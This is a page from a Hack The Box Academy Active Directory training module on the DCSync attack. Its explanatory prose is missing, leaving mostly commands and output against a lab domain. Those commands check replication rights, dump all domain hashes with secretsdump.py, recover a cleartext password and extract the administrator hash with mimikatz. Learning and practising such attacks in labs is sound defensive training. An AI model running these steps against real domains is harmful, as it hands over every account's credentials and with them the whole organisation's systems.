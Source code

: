<!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/143/section/1489
// Platform Version: V1
// Module ID: 143
// Module Name: Active Directory Enumeration & Attacks
// Module Difficulty: Medium
// Section ID: 1489
// Section Title: DCSync
// Page Title: Active Directory Enumeration & Attacks
// Page Number: 22
-->

# DCSync

**Module Name:** Active Directory Enumeration & Attacks **Page Number:** 22

#### ACTIVE DIRECTORY ENUMERATION & ATTACKS

# DCSync

## Scenario Setup

## What is DCSync and How Does it Work?

#### Viewing adunn's Replication Privileges through ADSI Edit

![https://academy.hackthebox.com/storage/modules/143/adnunn_right_dcsync.png](https://academy.hackthebox.com/storage/modules/143/adnunn_right_dcsync.png)

#### Using Get-DomainUser to View adunn's Group Membership

``` powershell-session
PS C:\htb> Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl


samaccountname     : adunn
objectsid          : S-1-5-21-3842939050-3880317879-2865463114-1164
memberof           : {CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Shared Calendar
                     Read,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Printer Access,OU=Security
                     Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=File Share H Drive,OU=Security
                     Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL...}
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
```

#### Using Get-ObjectAcl to Check adunn's Replication Rights

``` powershell-session
PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-498
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-516
ObjectAceType         : DS-Replication-Get-Changes-All

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-All
```

#### Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py

``` shell-session
[!bash!]$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 

Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Target system bootKey: 0x0e79d2e5d9bad2639da4ef244b30fda5
[*] Searching for NTDS.dit
[*] Registry says NTDS.dit is at C:\Windows\NTDS\ntds.dit. Calling vssadmin to get a copy. This might take some time
[*] Using smbexec method for remote execution
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: a9707d46478ab8b3ea22d8526ba15aa6
[*] Reading and decrypting hashes from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp 
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
lab_adm:1001:aad3b435b51404eeaad3b435b51404ee:663715a1a8b957e8e9943cc98ea451b6:::
ACADEMY-EA-DC01$:1002:aad3b435b51404eeaad3b435b51404ee:13673b5b66f699e81b2ebcb63ebdccfb:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
ACADEMY-EA-MS01$:1107:aad3b435b51404eeaad3b435b51404ee:06c77ee55364bd52559c0db9b1176f7a:::
ACADEMY-EA-WEB01$:1108:aad3b435b51404eeaad3b435b51404ee:1c7e2801ca48d0a5e3d5baf9e68367ac:::
inlanefreight.local\htb-student:1111:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5:::
inlanefreight.local\avazquez:1112:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::

<SNIP>

d0wngrade:des-cbc-md5:d6fee0b62aa410fe
d0wngrade:dec-cbc-crc:d6fee0b62aa410fe
ACADEMY-EA-FILE$:des-cbc-md5:eaef54a2c101406d
svc_qualys:des-cbc-md5:f125ab34b53eb61c
forend:des-cbc-md5:e3c14adf9d8a04c1
[*] ClearText password from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp 
proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
[*] Cleaning up...
```

#### Listing Hashes, Kerberos Keys, and Cleartext Passwords

``` shell-session
[!bash!]$ ls inlanefreight_hashes*

inlanefreight_hashes.ntds  inlanefreight_hashes.ntds.cleartext  inlanefreight_hashes.ntds.kerberos
```

#### Viewing an Account with Reversible Encryption Password Storage Set

![https://academy.hackthebox.com/storage/modules/143/reverse_encrypt.png](https://academy.hackthebox.com/storage/modules/143/reverse_encrypt.png)

#### Enumerating Further using Get-ADUser

``` powershell-session
PS C:\htb> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

DistinguishedName  : CN=PROXYAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled            : True
GivenName          :
Name               : PROXYAGENT
ObjectClass        : user
ObjectGUID         : c72d37d9-e9ff-4e54-9afa-77775eaaf334
SamAccountName     : proxyagent
SID                : S-1-5-21-3842939050-3880317879-2865463114-5222
Surname            :
userAccountControl : 640
UserPrincipalName  :
```

#### Checking for Reversible Encryption Option using Get-DomainUser

``` powershell-session
PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol

samaccountname                         useraccountcontrol
--------------                         ------------------
proxyagent     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
```

#### Displaying the Decrypted Password

``` shell-session
[!bash!]$ cat inlanefreight_hashes.ntds.cleartext 

proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
```

#### Using runas.exe

``` cmd-session
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell
Enter the password for INLANEFREIGHT\adunn:
Attempting to start powershell as user "INLANEFREIGHT\adunn" ...
```

#### Performing the Attack with Mimikatz

``` powershell-session
PS C:\htb> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : administrator
User Principal Name  : administrator@inlanefreight.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d

<SNIP>
```

## Moving On

# 

# 

#### Questions

####